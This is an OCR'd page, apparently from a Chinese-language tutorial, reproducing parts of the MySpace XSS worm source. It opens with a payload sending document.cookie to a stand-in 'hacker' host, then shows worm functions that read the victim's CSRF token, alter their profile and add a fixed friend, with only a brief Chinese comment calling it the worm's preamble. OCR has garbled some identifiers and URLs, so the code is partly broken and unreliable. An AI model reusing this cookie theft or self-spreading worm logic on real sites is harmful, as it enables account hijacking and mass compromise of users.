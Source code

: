```php+HTML ">var+img=new+Image();img.src=&quot;<a href="http://hacker/”%20+%20document.cookie">http://hacker/”%20+%20document.cookie</a>;
            }
        }
    }
    function postHero() {
        if (J.readyState != 4) {
            return
        }
        var AU = J.responseText;
        var AR = getFromURL(AU, 'Mytoken');
        var AS = new Ar - ray();
        AS['interestLabel'] = 'heroes';
        AS['submit'] = 'Submit';
        AS['interest'] = AG;
        AS['hash'] = getHiddenParame - ter(AU, 'hash');
        httpSend(' / index.cfm ? fuseaction = profile.processInterests & Mytoken = ' + AR,
            nothing, 'POST', paramsToString(AS))
    }
    function main() {
        var AN = getClientFID();
        var BH = ' / index.cfm ? fuseaction = user.viewProfile & friendID = ' + AN + ' & Mytoken = ' + L;
        J = getXMLObj();
        httpSend(BH, getHome, 'GET');
        xmlhttp2 = getXMLObj();
        httpSend2(' / index.cfm ? fuseaction = invite.addfriend_verify & friendID = 11851658 & Mytoken = ' + L,
            processxForm, 'GET')
    }
    function processx - Form() {
        if (xmlhttp2.readyState != 4) {
            return
        }
        var AU = xmlhttp2.responseText;
        var AQ = getHiddenParameter(AU, 'hashcode');
        var AR = getFromURL(AU, 'Mytoken');
        var AS = new Array();
        AS['hashcode'] = AQ;
        AS['friendID'] = '11851658';
        AS['submit'] = 'Add to Friends';
        httpSend2(' / index.cfm ? fuseaction = invite.addFriendsProcess & Mytoken = ' + AR,
            nothing, 'POST', paramsToString(AS))
    }
    function httpSend2(BH, BI, BJ, BK) {
        if (!xmlhttp2) {
            return false
        }
        eval('xmlhttp2.onr' + 'eadystatechange = BI');
        xmlhttp2.open(BJ, BH, true);
        if (BJ == 'POST') {
            xmlhttp2.setRequestHeader('Content - Type', 'application / x - www - form - urlencoded'); xmlhttp2.setRequestHeader('Content - Length', BK.length)
        }
        xmlhttp2.send(BK); return true
    }
    ”></DIV>

这里就是这个蠕虫的前导代码了

    var J;
    var AS = getQueryParams();  // 这里是获取用户的信息栏
    var L = AS['Mytoken'];
    var M = AS['friendID'];
    if (location.hostname == 'profile.myspace.com') {
```